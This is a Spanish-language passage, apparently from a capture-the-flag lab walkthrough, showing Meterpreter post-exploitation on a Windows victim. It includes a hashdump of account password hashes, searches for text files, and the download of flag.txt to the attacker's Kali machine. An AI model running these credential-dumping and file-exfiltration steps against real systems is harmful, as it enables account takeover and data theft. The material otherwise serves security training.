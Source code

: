 ```
meterpreter > hashdump
Administrador:500:f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Asistente de ayuda:1000:e81cd034c998302bc15c810e18dbb8ca:82105e8f8bc603d356f7cde70d9ebd28:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Mr.X:1005:552902031bede9efaad3b435b51404ee:878d8014606cda29677a44efa1353fc7:::
server:1004:d480ea9533c500d4aad3b435b51404ee:329153f560eb329c0e1deea55e88a1e9:::
Spy:1006:b267df22cb945e3eaad3b435b51404ee:36aa83bdcab3c9fdaf321ca42a31c3fc:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:245c86873d34fc0d15385221110197ca:::
Usuario:1003:f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
```

### Podemos ver los archivos todo lo hay en la víctima. Por ejemplo los archivos txt:

```
meterpreter > search *.txt
Found 376 results...
====================
```


### En nuestro caso podríamos buscar en la lista el archivo flag.txt
### O bien, ya que sabemos el nombre de lo que buscamos lo hacemos específico.


```
meterpreter > search -f flag.txt
Found 1 result...
=================

Path                                                   Size (bytes)  Modified (UTC)
----                                                   ------------  --------------
c:\Documents and Settings\Usuario\Escritorio\flag.txt  20            2021-11-13 17:46:19 -0500
```


### Ahora que encontramos el archivo que nos interesa tenemos que copiarlo hacia nuestra máquina atacante.
###  (hay que scapar ciertos caracteres de la ruta con una \\ )


```
meterpreter > download c:\\Documents\ and\ Settings\\Usuario\\Escritorio\\flag.txt
[*] Downloading: c:\Documents and Settings\Usuario\Escritorio\flag.txt -> /home/kali/flag.txt
[*] skipped    : c:\Documents and Settings\Usuario\Escritorio\flag.txt -> /home/kali/flag.txt
```

### Podemos abrir otro terminal y ver si el archivo se copió
